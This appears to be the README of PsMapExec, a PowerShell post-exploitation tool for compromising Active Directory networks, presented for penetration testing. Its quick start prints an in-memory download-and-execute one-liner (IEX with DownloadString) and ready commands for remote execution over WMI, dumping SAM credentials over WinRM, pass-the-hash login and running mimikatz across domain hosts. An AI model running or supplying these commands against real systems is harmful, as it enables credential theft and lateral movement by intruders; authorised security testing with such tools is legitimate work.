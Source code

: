 # PsMapExec

More detailed documentation on how to use PsMapExec is available on Gitbook: https://viperone.gitbook.io/pentest-everything/psmapexec

## What is PsMapExec

A PowerShell tool heavily inspired by the popular tool CrackMapExec. Far too often I find myself on engagements without access to Linux in order to make use of CrackMapExec. 

PsMapExec is used as a post-exploitation tool to assess and compromise an Active Directory environment. 

## What Protocols does it support

Currently supported methods (Protocols)

* PsExec
* RDP
* SMB Signing
* WinRM
* WMI

Planned methods

* MSSQL (In testing)
* IPMI
* SNMP
* FTP
* SSH
## Quick Start
### Load the script directly into memory
```
IEX(New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/The-Viper-One/PsMapExec/main/PsMapExec.ps1")
```
\
Execute some commands over WMI
```
PsMapExec -Targets Servers -Username Admin -Password Pass -Method WMI -Command "net user"
```
\
Check RDP access across all systems
```
PsMapExec -Targets All -Username Admin -Password Pass -Method RDP
```
\
Dump SAM over WinRM and Parse the results
```
PsMapExec -Targets Servers -Username Admin -Password Pass -Method WinRM -Module SAM -Option Parse
```
\
Authenticate over WMI with a hash and execute mimikatz
```
PsMapExec -Targets Workstations -Username Admin -Hash [Hash] -Method WMI -Module Mimikatz -Option Parse
```
\
Check SMB Signing on all domain systems
```
PsMapExec -Targets All -GenRelayList
```
## Detailed Usage
* https://viperone.gitbook.io/pentest-everything/psmapexec/general-usage
* https://viperone.gitbook.io/pentest-everything/psmapexec/methods
* https://viperone.gitbook.io/pentest-everything/psmapexec/modules

## Aknowledgements
## Dependencies
## Support me
<a href="https://www.buymeacoffee.com/ViperOne" target="_blank"><img src="https://cdn.buymeacoffee.com/buttons/v2/default-blue.png" alt="Buy Me A Coffee" style="height: 60px !important;width: 217px !important;" ></a>


## Example Images

### Command Execution
![image](https://github.com/The-Viper-One/PsMapExec/assets/68926315/e770e2b3-d441-4094-8a14-94848a3b6b74)

### SAM Dump
![image](https://github.com/The-Viper-One/PsMapExec/assets/68926315/f00a5468-ee99-4db3-82f5-e59223ecf219)


### Mimikatz
![image](https://github.com/The-Viper-One/PsMapExec/assets/68926315/a576b9c8-703e-423e-8041-44daca6cf335)

### RDP Access
![image](https://github.com/The-Viper-One/PsMapExec/assets/68926315/ba875e2f-5898-4c10-a33c-7bcb9ef3a2f5)



